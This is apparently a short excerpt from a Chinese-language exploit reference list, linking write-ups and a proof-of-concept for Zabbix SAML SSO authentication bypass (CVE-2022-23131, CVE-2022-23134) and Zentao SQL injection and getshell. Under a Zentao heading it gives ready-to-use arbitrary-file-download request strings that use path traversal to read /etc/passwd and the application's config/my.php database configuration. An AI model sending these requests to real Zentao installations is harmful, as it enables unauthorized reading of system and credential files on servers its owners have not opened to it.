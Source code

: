 [CVE-2022-23131 Zabbix SAML SSO认证绕过漏洞分析与复现](https://mp.weixin.qq.com/s/-TAUjvdigi9TzjoPpMe1kw)

[Mr-xn/cve-2022-23131](https://github.com/Mr-xn/cve-2022-23131)

[CVE-2022-23134 Zabbix漏洞分析之二：从未授权访问到接管后台](https://mp.weixin.qq.com/s/jq2AvDlHCosb3zViPXGTaQ)

## Zentao

CNVD-2020-65242 后台任意文件下载

```
index.php?m=file&f=sendDownHeader&fileName=2&fileType=1&content=/etc/passwd&type=file
index.php?m=file&f=sendDownHeader&fileName=2&fileType=1&content=./../../config/my.php&type=file
```

后台 im 模块 downloadXxdPackage 函数任意文件下载

```
index.php?m=im&f=downloadXxdPackage&xxdFileName=../../../../../../../../../etc/passwd
```

[Zentao v16.5 SQL Injection POC](https://github.com/z92g/ZentaoSqli/blob/master/CNVD-2022-42853.go)

[禅道12.4.2后台管理员权限Getshell复现](https://mp.weixin.qq.com/s/Uak631OOC48WcshaYnvsRQ)
